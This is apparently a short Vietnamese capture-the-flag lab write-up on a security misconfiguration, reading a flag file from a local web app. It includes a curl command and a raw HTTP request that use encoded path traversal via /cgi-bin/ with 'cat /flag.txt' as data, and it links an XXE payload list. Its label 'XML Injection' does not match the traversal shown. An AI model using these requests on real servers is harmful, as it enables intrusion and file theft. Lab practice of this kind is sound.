 
# ⚙️ Security Misconfiguration

---

## Cài đặt môi trường

*Note: vẫn như cài đặt ở phần 01*

```
http://127.0.0.1:5005/
```

---

## Phân tích

- Trang web có 1 giao diện duy nhất

![ISD](images/Picture22.png)

- Cờ nằm trong `flag.txt` (có thể thấy khi build docker)
- curl --data "echo;cat /flag.txt" 'http://localhost:6006/cgi-bin/.%2e/.%2e/.%2e/.%2e/flag.txt'

![ISD](images/Picture23.png)

- Có thể khai thác **XML Injection**

---

## Khai thác

- Dùng **Burp Suite**

- GET /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/flag.txt HTTP/1.1

![ISD](images/Picture24.png)

- Tham khảo payload tại:
  [https://github.com/payloadbox/xxe-injection-payload-list/blob/master/Intruder/xxe-injection-payload-list.txt.txt](https://github.com/payloadbox/xxe-injection-payload-list/blob/master/Intruder/xxe-injection-payload-list.txt.txt)
